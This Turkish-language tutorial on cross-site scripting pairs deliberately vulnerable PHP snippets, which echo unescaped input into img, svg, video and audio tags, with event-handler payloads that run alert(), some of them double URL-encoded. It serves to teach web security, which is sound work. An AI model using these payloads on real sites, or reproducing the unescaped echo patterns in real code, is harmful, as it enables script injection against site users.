 ### img tag & onerror event:

```php
$decoded = urldecode($userInput);
echo "<img src=\"" . $decoded . "\">";
```

**Payload:** `%2522%2520onerror=%2522alert()`

`%2522` iki kez encode edilmiş `"` karakteridir. İlk encode işleminde `%22` olur, ikinci encode işleminde `%2522` olur.
Çalışma: `onerror eventi`, resim yüklenemezse tetiklenir. Kullanıcı `img` etiketi için URL olarak `%2522%2520onerror=%2522alert()` gibi bir değer girerse, bu değer iki kez decode edilerek `"%20onerror="alert()` olur. Bu, `onerror eventini` tetikler ve `alert('XSS')` çalıştırır.

### svg tag & onload event:

```php
$replaced = str_replace(">", "&gt;", $userInput);
echo "<svg height=\"" . $replaced . "\" width=\"100\" xmlns=\"http://www.w3.org/2000/svg\">
  <circle r=\"45\" cx=\"50\" cy=\"50\" stroke=\"green\" stroke-width=\"3\" fill=\"red\" \"/>
</svg>";
```

**Payload:** `%22+onload=%22alert()`

Encode: `%22` karakteri `"` ile aynı şeydir, `+onload=%22alert()` kısmı ise `onload eventine` alert`('XSS')` atar.
Çalışma: Kullanıcı `SVG` etiketinin height özelliğine `%22+onload=%22alert()` gibi bir değer girerse, bu değer HTML encode edilmez ve `onload eventi` tetiklenir, `alert('XSS')` çalıştırılır.

### Double Encoded Payload & onloadstart

```php
$ddecoded = urldecode(urldecode($userInput));
echo "<video src=\"" . $ddecoded . "\" autoplay></video>";
```

**Payload:** `%2522%2520onloadstart=%2522alert()`

Çift URL Encode: `%2522` iki kez URL encode edilmiştir. İlk decode işlemi `%22` sonucunu verir, ikinci decode işlemi ise `"` karakterini geri getirir.
Çalışma: Video etiketine çift encode edilmiş payload girildiğinde, bu payload iki kez decode edilerek `onloadstart="alert()` olur. `onloadstart eventi` tetiklenir ve `alert('XSS')` çalıştırılır.

### audio tag & onplay event:

```php
echo "<audio src=\"" . $userInput . "\" autoplay></audio>";
```

**Payload:** `sound.mp3" onplay="alert()`

Payload: Burada `onplay eventi`, `audio` etiketine eklenecek bir JavaScript kodu içerir.
Çalışma: Kullanıcı audio etiketinin `src` özelliğine `sound.mp3" onplay="alert()` gibi bir değer girerse, `onplay event` tetiklenir ve `alert('XSS')` çalıştırılır.
